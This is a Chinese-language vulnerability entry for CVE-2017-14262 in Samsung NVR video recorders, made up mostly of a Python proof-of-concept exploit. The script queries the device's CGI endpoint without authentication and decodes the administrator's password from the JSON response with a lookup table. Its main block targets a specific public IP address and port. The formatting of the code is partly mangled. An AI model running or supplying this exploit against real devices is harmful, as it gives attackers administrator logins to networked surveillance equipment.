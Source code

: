 ```yaml
---
title: "（CVE-2017-14262）Samsung NVR devices 漏洞"
id: zhfly3405
---
```


# （CVE-2017-14262）Samsung NVR devices 漏洞

## 一、漏洞简介

Samsung NVR devices是韩国三星（Samsung）公司的一款网络视频录像机设备。 Samsung NVR设备中存在安全漏洞。远程攻击者可利用该漏洞读取管理员账户的MD5密码散列，并登录设备。

## 二、漏洞影响

## 三、复现过程

### poc

```
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from collections import OrderedDict

from itertools import takewhile

import requests

class SamsungNVR(object):

“”"

此漏洞三星和 uniview 都有

“”"

vul_info = {

“title”: “Samsung NVR设备安全漏洞”,

“cve”: “CVE-2017-14262”,

“desc”: “Samsung NVR devices是韩国三星（Samsung）公司的一款网络视频录像机设备。”

“Samsung NVR设备中存在安全漏洞。远程攻击者可利用该漏洞读取管理员账户的MD5密码散列，并登录设备。”

}

```
pass_index = OrderedDict(
    [(1, 1), (9192090, 2), (1020910, 3), (25549780, 4), (24507899, 5), (16119889, 6), (9428219, 7), (2281891, 8),
     (10861120, 9), (15331742, 10), (22464897, 11), (24403461, 12), (13833575, 13), (16061285, 14), (10721046, 15),
     (16593252, 16), (22051260, 17), (16638739, 18), (6666540, 19), (9283102, 20), (18791719, 21), (25905184, 22),
     (2762182, 23), (12911758, 24), (21944959, 25), (10257708, 26), (894574, 27), (16004987, 28), (12850146, 29),
     (8043423, 30), (7835618, 31), (18372773, 32), (9417841, 33), (18658565, 34), (10330028, 35), (13289156, 36),
     (23739388, 37), (12401865, 38), (15005445, 39), (10176399, 40), (10776092, 41), (16860945, 42), (5353890, 43),
     (2688051, 44), (39030, 45), (18708319, 46), (23920727, 47), (4762271, 48), (24294435, 49), (16720763, 50),
     (21207445, 51), (20598600, 52), (13303854, 53), (2666164, 54), (19813766, 55), (16041010, 56), (3127839, 57),
     (25260962, 58), (15859882, 59), (23452596, 60), (11396657, 61), (18994119, 62), (12423246, 63), (21498126, 64),
     (23593931, 65), (9818447, 66), (14937061, 67), (24683641, 68), (11058089, 69), (12800298, 70), (133183, 71),
     (26013724, 72), (19021449, 73), (25487361, 74), (3426696, 75), (22326185, 76), (9151922, 77), (20416123, 78),
     (13876302, 79), (497003, 80), (18662430, 81), (7306818, 82), (24323487, 83), (26110937, 84),
     (5380058, 85), (21481095, 86), (9540458, 87), (14123621, 88), (6847253, 89), (7638896, 90),
     (22385568, 91), (1208753, 92), (15383366, 93), (24719837, 94), (26729699, 95), (3594142, 96),
     (371291, 97), (23345327, 98), (4415431, 99), (6477625, 100), (4733341, 101), (13423221, 102),
     (24215867, 103), (7503741, 104), (6390751, 105), (10192199, 106), (10352855, 107), (22393893, 108),
     (7198498, 109), (12838108, 110), (5515125, 111), (7229843, 112), (13872090, 113), (21671745, 114),
     (12457317, 115), (26153875, 116), (14327497, 117), (11382568, 118), (10132668, 119), (20086929, 120),
     (8117696, 121), (2098389, 122), (21553350, 123), (23391670, 124), (25350683, 125), (25970062, 126),
     (6959731, 127), (16338714, 128)])

@classmethod
def decrypt_password(cls, json_resp):
    """解密管理员账户密码"""
    try:
        au_pwd = takewhile(lambda x: x != 0, json_resp["au32LoginPasswd"])
        password = "".join(chr(cls.pass_index[pwd_int]) for pwd_int in au_pwd)
    except KeyError:
        password = ""
    return password

def __init__(self, ip: str, port: int):
    self._base_url = f"http://{ip}:{port}"

def verify(self):

    vul_path = '/cgi-bin/main-cgi?json={"cmd":201,"szUserName_Qry":"admin","szUserName":"","u32UserLoginHandle":0}'
    url = self._base_url + vul_path
    try:
        req = requests.get(url, timeout=10)
        if req.status_code == 200:
            res_json = req.json()
            hash_pass = res_json.get("szLoginPasswd", "")
            if hash_pass:
                plain_pass = self.decrypt_password(res_json)
                if plain_pass:
                    return {"user": "admin", "password": plain_pass}
    except Exception as e:
        print(e) 
```

if **name** == ‘**main**’:

vul = SamsungNVR(“117.158.178.49”, 84)

vulres = vul.verify()

print(f"[-] {vul.vul_info}")

if vulres:

print(f"[+] 存在漏洞:{vulres}")

else:

print("[-] 不存在漏洞。") 
```